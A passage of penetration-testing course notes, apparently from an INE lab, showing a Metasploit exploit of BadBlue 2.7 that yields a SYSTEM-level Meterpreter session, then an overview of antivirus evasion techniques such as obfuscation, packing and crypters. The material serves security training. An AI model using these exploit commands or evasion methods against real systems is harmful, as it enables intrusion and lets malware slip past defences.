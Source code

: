 **Step 9: Exploiting Vulnerabilities to Access Internal Systems**.

`search badblue 2.7`, `use exploit/windows/http/badblue_passthru`, `show options`, `set RHOSTS fileserver.ine.local`, `set PAYLOAD windows/meterpreter/bind_tcp`, `exploit`.

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

---

## Antivirus Evasion

### Antivirus Evasion (with Shellter) - Theory

**Defense Evasion** consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or *obfuscating/encrypting* data and scripts. Adversaries also leverage and abuse *trusted processes* to hide and masquerade their malware.

**AV Detection Methods**:
- *Signature* based detection. An AV signature is a unique sequence of bytes that uniquely identifies malware. As a result, you will have to ensure that your obfuscated exploit or payload doesn't match any known signature in the AV database. 
- We can bypass signature-based detection by modifying the malware's byte sequence, therefore changing the signature.
- *Heuristic* based detection. Relies on rules or decisions to determine whether a binary is malicious. It also looks for specific patterns within the code or program calls.
- *Behavior* based detection. Relies on identifying malware by monitoring it's behavior (used for newer strains of malware).

1. **On-disk AV Evasion Techniques**:
	- *Obfuscation*. Obfuscation refers to the process of concealing something important, valuable, or critical. Obfuscation reorganizes code in order to make it harder to analyze or RE.
	- *Encoding*. Encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process; data can be encoded to a new format and decoded to its original format.
	- *Packing*. Generate executable with new binary structure with a smaller size and therefore provides the payload with a new signature.
	- *Crypters*. Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub.
